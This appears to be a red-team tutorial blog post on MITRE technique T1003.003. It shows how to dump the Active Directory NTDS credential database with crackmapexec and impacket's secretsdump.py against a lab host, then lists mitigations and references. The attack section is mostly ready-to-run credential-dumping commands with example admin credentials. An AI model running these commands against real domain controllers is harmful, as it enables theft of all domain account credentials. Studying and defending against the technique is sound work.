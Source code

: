 ```yaml
---
title: NTDS 
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Credential Access]
tags: [redteam,Credential Access, windows, mitre, sam, credentials]     # TAG names should always be lowercase
---
```


# MITRE

- ID : `T1003.003`
- Tactic : `Credential Access`
- Platforms: `Windows`

# NTDS 

***Ntds*** file is a database that stores Active Directory data, including information about user objects, groups and group membership. Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights.

# Exploitation

## CrackMapExec

We can dump ntds database with `crackmapexec` by executing the below command

```bash
crackmapexec smb 10.42.0.10 -u Administrator -p Password@123 --ntds

```

![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds1.png)

In the above image, we were able to dump ntds database.

## Secretsdump.py

We can also dump ntds credential with impackets `secretsdump.py`.

```bash
python3 secretsdump.py -use-vss cyber.local/Administrator:Password@123@10.42.0.10

```
![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds2.png)

![ntds](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/oscredntds2rem.png)

In the above image, we were able to dump ntds database.

# Mitigations

- Ensure Domain Controller backups are properly secured.
- Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- Do not put user or admin domain accounts in the local administrator groups across systems unless they are tightly controlled.
- Limit credential overlap across accounts and systems by training users and administrators not to use the same password for multiple accounts.

# References

- [https://attack.mitre.org/techniques/T1003/002/](https://attack.mitre.org/techniques/T1003/003/)
- [https://atomicredteam.io/credential-access/T1003.003/](https://atomicredteam.io/credential-access/T1003.003/)
- [https://book.hacktricks.xyz/windows-hardening/stealing-credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials)
